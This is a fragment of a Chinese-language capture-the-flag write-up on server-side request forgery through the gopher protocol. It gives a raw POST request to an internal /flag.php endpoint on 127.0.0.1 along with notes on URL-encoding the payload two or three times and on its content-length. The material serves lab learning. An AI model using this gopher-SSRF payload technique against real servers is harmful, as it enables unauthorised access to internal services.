 
http://ctf.ssleye.com/url.html  该网站需要编码三次

gopher协议后面的POST包如下：(BerylEnigma只需要URL编码两次)

注意content-length的长度，为key的长度
```
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=5d4ac8b6cdd2a0b860b3fa3d86db2c2a
```

第一次编码：

![](./img/ssrf4.png)
